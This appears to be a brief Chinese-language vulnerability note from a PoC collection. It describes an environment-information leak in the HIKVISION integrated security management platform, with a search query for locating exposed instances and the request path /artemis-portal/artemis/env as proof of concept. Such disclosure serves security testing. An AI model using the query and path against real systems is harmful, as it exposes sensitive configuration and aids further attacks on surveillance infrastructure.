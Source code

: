 # HIKVISION 综合安防管理平台 env 信息泄漏漏洞

## 漏洞描述

HIKVISION 综合安防管理平台存在信息泄漏漏洞，攻击者通过漏洞可以获取环境env等敏感消息进一步攻击

## 漏洞影响

HIKVISION 综合安防管理平台

## 网络测绘

```
app="HIKVISION-综合安防管理平台"
```

## 漏洞复现

登录页面

![image-20220824134144287](./images/202208241341481.png)

验证POC

```
/artemis-portal/artemis/env 
```

![image-20230828163057813](images/image-20230828163057813.png)